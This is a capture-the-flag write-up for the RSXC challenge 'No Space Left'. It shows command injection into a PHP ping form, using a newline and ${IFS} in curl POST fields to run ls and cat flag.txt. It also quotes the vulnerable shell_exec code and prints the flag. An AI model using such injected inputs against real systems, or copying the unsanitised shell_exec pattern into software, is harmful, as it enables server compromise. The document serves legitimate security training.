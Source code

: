 # 3 - No Space Left

Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

http://rsxc.no:9007

# Note

Number 3 to 6 I used a few minutes to check out, then I randomly tested if the flag was unprotected as it is in the same folder as the `index.php` and sure enough. I could just access `flag.txt` by adding that to the URL. So my points skyrocketed at that moment. 

I knew that was not the intended solution so even if I got the flag I wanted to complete it "legally" before continuing so I could write a proper writeup.

**Update**: This was fixed later on and flag is now in `/flag.txt`. This writeup still works the same just add a `/`

# Writup

I must admit that getting nothing back on any attempts makes this hard. But I see illegal input on a lot of characters and since the title is `no space left` I do see it there to.

So what to append to `nonexistingcommand $1` to make it work. I tested a few things and I saw that newline works. So using curl I can easily send a newline like this. I could prolly urlencode it aswell but this gave me an `ls` output.

```console
toffe@kali:~$ curl http://rsxc.no:9007 -d "ip=
ls"
```

So newline then we need to output the file data. So I googled `how to cat a file without space` and [stackexchange](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) to the rescue.

```console
toffe@kali:~$ curl http://rsxc.no:9007 -d "ip=
cat\${IFS}flag.txt"
```

There we had the flag. We cat the php for information:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
        $ip = $_POST['ip'];

        if (preg_match('/[&|;`\'" ]/',$ip)) {
                echo "<p align='center' style='color:red;'>Illegal Input Discovered</p>";
                die();
        }

        $output = shell_exec("ping -c 1 $ip");
        echo "<pre class='output'>$output</pre>";
}
?>
```

# Flag

```
RSXC{NO_MORE_SPACES_WERE_ALLOWED_BUT_NEWLINES_ARE_OK}
```